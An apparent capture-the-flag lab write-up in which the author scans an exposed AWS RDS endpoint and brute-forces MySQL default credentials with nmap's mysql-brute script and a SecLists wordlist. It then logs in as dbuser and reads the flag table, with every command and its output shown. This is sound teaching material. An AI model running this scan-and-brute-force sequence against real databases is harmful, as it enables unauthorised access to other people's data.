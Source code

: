 # Initial Entry

The scenario here is in the backdrop of rising cybersecurity threats, with chatter on Telegram channels hinting at data dumps and Pastebin snippets exposing snippets of configurations, Huge Logistics is taking no chances. They’ve enlisted your team’s expertise to rigorously assess their cloud infrastructure. Armed with a list of IP addresses and endpoints, a lead emerged — an RDS endpoint: `exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com`. Your mission? Dive deep into this endpoint’s security, and identify any security issues before threat actors do.

  

## Understand what is RDS

Amazon RDS is defined as a Relation database services in more of distributed way.. Kind of service offering from AWS to simply the setup, operational changes and scaling of application and one thing to remember is Amazon RDS supports PostgreSQL, MySQL, Maria DB, Oracle, SQL Server, and Amazon Aurora

  

## Approaching for a solution 

With the following RDS instance URL: [exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com](https://exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com "https://exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com") we will do a simple nmap scan on top 1000 ports and as a result, we can see that port 3306 is open and runs a mysql server 

  

```bash
r4y@DESKTOP-3KBF4H7:/mnt/c/Users/Nithissh$ nmap -sV -Pn --top 1000 -vvv exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com
Starting Nmap 7.80 ( https://nmap.org ) at 2024-02-16 21:00 PST
NSE: Loaded 45 scripts for scanning.
Initiating Parallel DNS resolution of 1 host. at 21:00
Completed Parallel DNS resolution of 1 host. at 21:00, 0.29s elapsed
DNS resolution of 1 IPs took 0.29s. Mode: Async [#: 1, OK: 1, NX: 0, DR: 0, SF: 0, TR: 1, CN: 0]
Initiating Connect Scan at 21:00
Scanning exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com (16.171.94.68) [1000 ports]
Discovered open port 3306/tcp on 16.171.94.68
Completed Connect Scan at 21:01, 42.93s elapsed (1000 total ports)
Initiating Service scan at 21:01
Scanning 1 service on exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com (16.171.94.68)
Completed Service scan at 21:01, 25.40s elapsed (1 service on 1 host)
NSE: Script scanning 16.171.94.68.
NSE: Starting runlevel 1 (of 2) scan.
Initiating NSE at 21:01
Completed NSE at 21:01, 0.00s elapsed
NSE: Starting runlevel 2 (of 2) scan.
Initiating NSE at 21:01
Completed NSE at 21:01, 0.35s elapsed
Nmap scan report for exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com (16.171.94.68)
Host is up, received user-set (0.17s latency).
rDNS record for 16.171.94.68: ec2-16-171-94-68.eu-north-1.compute.amazonaws.com
Scanned at 2024-02-16 21:00:26 PST for 69s
Not shown: 999 filtered ports
Reason: 999 no-responses
PORT     STATE SERVICE REASON  VERSION
3306/tcp open  mysql?  syn-ack
```

Look into banner grabbing through netcat, we found that `mysql_native_password`  is supported and what that means is it is authentication mechanism used in mysql when you enter the password it get converted into some kind of kind hash using a method called password native hashing and later when the user enters the password again it is converted into hash format and compared with the stored hash.. If it is validated and verified, user will get loggedin 

  

```bash
r4y@DESKTOP-3KBF4H7:/mnt/c/Users/Nithissh$ nc exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com 3306
J
8.0.32��
       QD]R<�����bAd;F1B*mysql_native_password2
```

  

We can also do the username and password manually but it is time consuming and so, we are automating it using nmap’s mysql-brute script for that we need to do a similiar setups like firstly need a wordlist and for that we are utilizing seclists and setup the delimiter between of the wordlist because it is in the format of `root:root`  where the nmap script supports if it is in a particular format `root/root` 

  

```bash
r4y@DESKTOP-3KBF4H7:/tmp$  wget https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Default-Credentials/mysql-betterdefaultpasslist.txt -O mysql-creds.txt
--2024-02-16 21:30:46--  https://raw.githubusercontent.com/danielmiessler/SecLists/master/Passwords/Default-Credentials/mysql-betterdefaultpasslist.txt
Resolving raw.githubusercontent.com (raw.githubusercontent.com)... 185.199.108.133, 185.199.109.133, 185.199.110.133, ...
Connecting to raw.githubusercontent.com (raw.githubusercontent.com)|185.199.108.133|:443... connected.
HTTP request sent, awaiting response... 200 OK
Length: 343 [text/plain]
Saving to: ‘mysql-creds.txt’

mysql-creds.txt               100%[=================================================>]     343  --.-KB/s    in 0s

2024-02-16 21:30:46 (51.9 MB/s) - ‘mysql-creds.txt’ saved [343/343]

r4y@DESKTOP-3KBF4H7:/tmp$ sed -i 's/:/\//g' mysql-creds.txt
r4y@DESKTOP-3KBF4H7:/tmp$ cat mysql-creds.txt
root/mysql
root/root
root/chippc
admin/admin
root/
root/nagiosxi
root/usbw
cloudera/cloudera
root/cloudera
root/moves
moves/moves
root/testpw
root/p@ck3tf3nc3
mcUser/medocheck123
root/mktt
root/123
dbuser/123
asteriskuser/amp109
asteriskuser/eLaStIx.asteriskuser.2oo7
root/raspberry
root/openauditrootuserpassword
root/vagrant
root/123qweASD#
```

  

With the nmap, we can bruteforce with the `mysql-brute`  script and additonally you can pass the wordlist which we have edited through `brute.credfile` params.. After nmap scan is completed, we found ou valid credentials for the database which is `dbuser:123`⁠

  

```bash
r4y@DESKTOP-3KBF4H7:/tmp$ nmap -Pn -p3306 --script=mysql-brute --script-args brute.delay=10,brute.mode=creds,brute.credfile=mysql-creds.txt exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com
Starting Nmap 7.80 ( https://nmap.org ) at 2024-02-16 21:35 PST
Nmap scan report for exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com (16.171.94.68)
Host is up (0.16s latency).
rDNS record for 16.171.94.68: ec2-16-171-94-68.eu-north-1.compute.amazonaws.com

PORT     STATE SERVICE
3306/tcp open  mysql
| mysql-brute:
|   Accounts:
|     dbuser:123 - Valid credentials
|_  Statistics: Performed 23 guesses in 33 seconds, average tps: 0.8

Nmap done: 1 IP address (1 host up) scanned in 33.24 seconds
```

  

In mysql commandline on to your host machine and with the following we can able to connect to the host [`exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com`](https://exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com "https://exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com") with the username as `dbuser` and our password will be `123`⁠

  

```bash
r4y@DESKTOP-3KBF4H7:/tmp$ mysql -h exposed.cw9ow1llpfvz.eu-north-1.rds.amazonaws.com -u dbuser -p
Enter password:
Welcome to the MySQL monitor.  Commands end with ; or \g.
Your MySQL connection id is 311539
Server version: 8.0.32 Source distribution

Copyright (c) 2000, 2024, Oracle and/or its affiliates.

Oracle is a registered trademark of Oracle Corporation and/or its
affiliates. Other names may be trademarks of their respective
owners.

Type 'help;' or '\h' for help. Type '\c' to clear the current input statement.

mysql>
```

  

Let’s check the permissions or grants of `dbuser`  with the following query `SHOW GRANTS FROM “dbuser”;`  where it will show what it has access to and we have access `user_info` database and in the you can enumerate users table or flag as well

  

```bash
mysql> SHOW GRANTS FOR "dbuser"
    -> ;
+-----------------------------------------------------+
| Grants for dbuser@%                                 |
+-----------------------------------------------------+
| GRANT USAGE ON *.* TO `dbuser`@`%`                  |
| GRANT SELECT ON `user_info`.`flag` TO `dbuser`@`%`  |
| GRANT SELECT ON `user_info`.`users` TO `dbuser`@`%` |
+-----------------------------------------------------+
3 rows in set (0.18 sec)
```

  

Let’s change the database by entering query which is `use user_info;`  and once the database is changed, try disclosing the table susing `show tables`⁠

  

```bash
mysql> use user_info;
Reading table information for completion of table and column names
You can turn off this feature to get a quicker startup with -A

Database changed
mysql> show tables;
+---------------------+
| Tables_in_user_info |
+---------------------+
| flag                |
| users               |
+---------------------+
2 rows in set (0.18 sec)
```

  

We got our flag with the following query `SELECT * FROM flag` 

```bash
mysql> select * from flag
    -> ;
+----------------------------------+
| flag                             |
+----------------------------------+
| e1c342d58b6933b3e0b5078174fd5a62 |
+----------------------------------+
1 row in set (0.17 sec)
```